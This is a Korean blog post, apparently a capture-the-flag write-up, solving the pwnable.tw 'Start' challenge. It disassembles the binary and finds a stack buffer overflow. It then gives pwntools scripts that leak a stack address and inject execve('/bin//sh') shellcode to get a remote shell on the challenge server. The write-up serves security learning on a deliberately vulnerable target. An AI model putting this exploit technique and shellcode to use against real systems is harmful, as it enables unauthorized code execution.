 ```yaml
---
layout: post
title: "[pwnable.tw] Start 풀이"
date: 2018-05-25 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## Start [100 pts]
### Just a start.
### `nc chall.pwnable.tw 10000`
### [start](https://pwnable.tw/static/chall/start)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/Start/01.png)
{: refdef}

32bit고 보호기법은 안 걸려있네요!

{: refdef: style="text-align: center;"}
![disassemble](/img/pwnable.tw/Start/02.png)
{: refdef}

IDA로 열어 보면 `_start`밖에 없는 간단한 프로그램이에요.	

int 0x80을 사용해 함수를 호출하는데

[<U>이 사이트</U>](https://syscalls.kernelgrok.com)를 보면 int 0x80에서 레지스터가 어떻게 사용되는지 알 수 있어요.

```c
char buf[14] = "Let's start the CTF:"

write(1, buf, 0x14);
read(1, buf, 0x3C);
```

대충 c언어로 바꿔보면 위처럼 나와요,

- - -
# 0x01. 공격 방법

딱 봐도 bof가 가능하겠네요!

음... NX가 안 걸려있으니까 쉘코드를 사용할 거에요.

1. 스택 주소 구하기

2. 스택에 쉘코드 삽입

3. 해당 주소로 리턴

이 순서로 공격할 거에요.

- - -
# 0x02. 정보 수집

## 1. 스택 주소 구하기

```asm
push "Let's start the CTF:"
mov ecx, esp
mov dl, 14h
mov bl, 1
mov al, 4
int 80h
xor ebx, ebx
mov dl, 3Ch
mov al, 3
int 80h
add esp, 14h
retn
```

`read`는 끝나면 `add esp, 14h`로 스택을 정리해주네여.

그럼 `read`가 끝나고 스택도 정리한 후에 다시 `write`를 실행시키면 정리된 스택이 출력되고 다시 그 부분부터 `read`가 또 실행될거에여.

호다다닥 해보면

```python
from pwn import *
context.log_level = "debug"

s = remote("localhost", 4444)

s.recv()

dummy = "A"*0x14

payload = dummy
payload += p32(0x08048087)

s.send(payload)
```

{: refdef: style="text-align: center;"}
![stack_leak](/img/pwnable.tw/Start/03.png)
{: refdef}

누가봐도 스택처럼 생긴 `0xffae9020`이 바로 나와주네요!

혹시 모르니 gdb로 맞는지 확인해 볼게요.

{: refdef: style="text-align: center;"}
![gdb_check](/img/pwnable.tw/Start/04.png)
{: refdef}

- - -
# 0x03. 익스플로잇

24byte 쉘코드를 사용했어요.

```python
from pwn import *
#context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10000

s = remote(HOST, PORT)

elf = ELF("./start")
#libc = ELF("./")
pause()

func_write = 0x08048087

shell = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
shell += "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99"
shell += "\xb0\x0b\xcd\x80"

dummy = "A"*20

payload = dummy
payload += p32(func_write)

s.recvuntil("Let's start the CTF:")
s.send(payload)

stack_leak = u32(s.recv(4))
s.recv()
print "[*] stack_leak : " + hex(stack_leak)

payload = dummy
payload += p32(stack_leak + 0x14)
payload += shell

s.send(payload)

s.interactive()
```
